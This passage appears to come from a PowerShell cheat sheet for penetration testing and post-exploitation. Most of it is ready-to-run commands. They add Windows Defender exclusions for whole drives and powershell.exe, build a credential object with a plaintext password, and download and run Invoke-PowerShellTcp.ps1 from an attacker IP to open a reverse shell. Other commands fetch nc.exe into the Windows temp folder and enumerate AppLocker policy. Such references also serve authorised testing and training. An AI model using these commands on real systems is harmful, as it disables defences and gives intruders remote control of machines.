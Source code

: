 ```
Add-MpPreference -ExclusionPath C:\, D:\
```

Remove an exclusion path:

```
Remove-MpPreference -ExclusionPath C:\
```

Exclude a process from anti-virus scans:

```
Set-MpPreference -ExclusionProcess "powershell.exe"
```

## Credentials

Create a credential object:

```
$username = 'Administrator'
$password = ConvertTo-SecureString 'Password1' -AsPlainText -Force
$credentialsObject = New-Object System.Management.Automation.PSCredential($username, $password)
```

Run a command with the credentials object. In the example below, we are connecting to the attack machine to download and execute the "InvokePowershellTcp" script which will make a new reverse powershell connection as the "credentialsObject" user:

```
Start-Process -FilePath "powershell" -ArgumentList "IEX(New-Object Net.WebClient).DownloadString('http://10.x.x.x/Invoke-PowerShellTcp.ps1')" -Credential $credentialsObject
```

## Applocker

Get the "Effective" applocker policy:

```
Get-ApplockerPolicy -Effective | Select -ExpandProperty RuleCollections
```

Get the "Local" applocker policy:

```
Get-AppLockerPolicy -Local
```

Get the "Domain" applocker policy:

```
Get-AppLockerPolicy -Domain
```

## File Transfers

Download a file using "System.Net.WebClient" (DownloadFile method):

```
(New-Object System.Net.WebClient).DownloadFile('http://10.x.x.x/nc.exe','c:\windows\temp\nc.exe')   
```
